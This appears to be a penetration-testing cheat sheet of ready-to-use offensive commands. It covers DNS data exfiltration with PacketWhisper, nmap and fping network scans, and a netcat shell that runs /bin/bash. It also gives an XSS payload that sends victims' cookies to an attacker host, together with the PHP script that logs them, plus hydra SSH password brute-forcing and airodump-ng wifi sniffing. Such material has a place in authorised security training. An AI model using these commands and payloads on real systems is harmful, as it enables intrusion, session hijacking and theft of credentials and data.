 ### Using packetwhisper to exfil data using DNS
1. ```mkdir tmpwork && cd tmpwork && wget  [https://github.com/TryCatchHCF/PacketWhisper/archive/master.zip](https://github.com/TryCatchHCF/PacketWhisper/archive/master.zip)```
2. Start python simple http server
3. Goto victims machine & open outbound port
4. Generate powershell cmd & start wireshark on attacker machine
5. On victim machine, execute generated powershell code
### Ping sweep
```shell
fping -a -g 10.0.2.15/24 2> /dev/null

nmap -sn 10.0.2.15/24
```
### Find service versions of services on server
```shell
sudo nmap -sV -F -sS ip_addr
```
### Netcat bind shell
Attacker machine:
```shell
nc -lvp 1337 -e /bin/bash
```
Victim machine:
```shell
nc -v attackerip 1337
```
### JS payload - post to attacker
On victim asset:
```shell
<script> var i = new Image(); i.src="https://attacker.site/get.php?cookie="+escape(document.cookie) </script>
```
On attacker website:
```php
<?php  
  
$ip = $_SERVER['REMOTE_ADDR'];  
$browser = $_SERVER['HTTP_USER_AGENT'];  
  
$fp = fopen('jar.txt', 'a');  
fwrite($fp, $ip.' '.$browser."\n");  
fwrite($fp, urldecode($_SERVER['QUERY_STRING'])."\n\n");  
fclose($fp);
```
### Bruteforcing SSH using hydra
```shell
hydra server_ip_addr ssh -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Password/rockyou-10.txt -f -V
```
### Airodump - Get chaninel specific traffic - filter by enc type
```shell
airodump-ng --channel 1 wlan0 / airodump-ng --channel 1 --encrypt WPA1 wlan0
```
### Airodump - Sniff all bands and channels
```shell
airodump-ng --band abg wlan0
```
### Airodump - filter by channel / essid
```shell
airodump-ng --channel 1,2,3,4 / --essid AP_NAME
```